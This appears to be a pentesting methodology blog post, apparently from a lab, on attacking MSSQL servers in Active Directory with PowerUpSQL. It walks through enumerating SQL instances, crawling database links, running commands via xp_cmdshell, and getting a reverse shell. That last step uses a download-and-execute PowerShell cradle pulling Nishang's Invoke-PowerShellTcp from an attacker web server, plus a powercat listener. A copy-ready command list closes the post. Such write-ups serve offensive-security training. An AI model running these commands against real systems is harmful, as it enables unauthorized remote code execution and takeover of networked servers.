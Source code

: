 ```yaml
---
title: "Active Directory - MSSQL Server"
tags: [Metodologies]
categories: ActiveDirectory
mermaid: true
image: https://www.safesystems.com/wp-content/uploads/2020/04/Microsofts-LDAP-Security-Update-and-the-Impact-on-Financial-Institutions-Today-Header-Blog-Image.png
---
```


# Active Directory - MSSQL Server

Here you will find some commands to explore Active Directory with MSSQL Server

Commands linked to msql instances in Windows AD.

Hope you enjoy.

# Summary

- [Active Directory - MSSQL Server](#active-directory---mssql-server)
- [Summary](#summary)
- [Initial Consideration](#initial-consideration)
- [SQL Server Enumeration](#sql-server-enumeration)
  - [Listing SPN](#listing-spn)
  - [Verifying Server Connectivity](#verifying-server-connectivity)
  - [Testing the Chain](#testing-the-chain)
  - [RCE](#rce)
  - [Reverse Shell](#reverse-shell)
- [Conclusion](#conclusion)
  - [Commands Used](#commands-used)

![](https://0x4rt3mis.github.io/assets/img/active-enum/mssql-server.png)

# Initial Consideration

Now let's start the MSSQL Server enumeration of that AD, every AD will have a SQL server, since that's where the data is stored.

The tool I'll use for this section is PowerUpSql.ps1, a script written in PowerShell that enables fast and accurate enumeration of an AD's SQL server.

READ THE REFERENCE POST, VERY IMPORTANT FOR UNDERSTANDING WHAT WILL BE PERFORMED HERE

*Reference:*

[Link 1](https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/)

# SQL Server Enumeration

The initial idea here is to have any type of access, even if I publish to the SQL database, with this access we can scale privileges within it and become SA (sysadmin) within it, for example enabling xp_cmdshell and executing cmd commands within the SQL machine and get a reverse shell!

## Listing SPN

Tool used: PowerUpSql.ps1

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1)

Listing all Lab SQL that have SPN (Service Principal Name) enabled

```ps1
Get-SQLInstanceDomain
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/sql.png)

We have a total of 5 SQL instances running in this lab.

## Verifying Server Connectivity

Now we should check if any of them are accessible, and if they are accessible, we can log in with some user

```ps1
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/sql1.png)

We verified that we have an Affordable one! So we can test commands through her chain now

## Testing the Chain

To see if we have any type of command execution inside the sql server, we have to test its chain, and see if at any of these points we have command execution

```ps1
Get-SQLServerLinkCrawl -Instance Instancia_acessível
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/sql2.png)

We've found that it makes a chain at various points, so it's very likely that we'll have some kind of RCE somewhere in this chain.

## RCE

```ps1
Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell 'whoami'" | ft
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/sql3.png)

We get RCE in it

## Reverse Shell

Now let's get a reverse shell on it!

We will use Nishang's `Invoke-PowerShellTCP.ps1`

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

The `HFS` to host your web server where the remote server will make requests

[HFS](https://www.rejetto.com/hfs/)

And the `powercat` to receive the reverse connection

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

We set powercat on port 443 to receive the reverse connection

```ps1
powercat -l -v -p 443 -t 1000
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/rev.png)

We fix it (we put the function call at the end of it to automatically run the reverse shell) and upload the Invoke-PowerShellTCP.ps1 into the HFS

![](https://0x4rt3mis.github.io/assets/img/active-enum/rev1.png)

Now we call crawl our reverse shell

```ps1
Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://x.x.x.x/Invoke-PowerShellTCP.ps1'')'" | ft
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/rev2.png)

We received the machine's reverse connection

![](https://0x4rt3mis.github.io/assets/img/active-enum/rev3.png)

# Conclusion

Ready! We got a reverse shell via a database link inside MSSQL

## Commands Used

```ps1
Get-SQLInstanceDomain
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10
Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE
Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell 'whoami'" | ft
powercat -l -v -p 443 -t 1000
Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://x.x.x.x/Invoke-PowerShellTCP.ps1'')'" | ft
```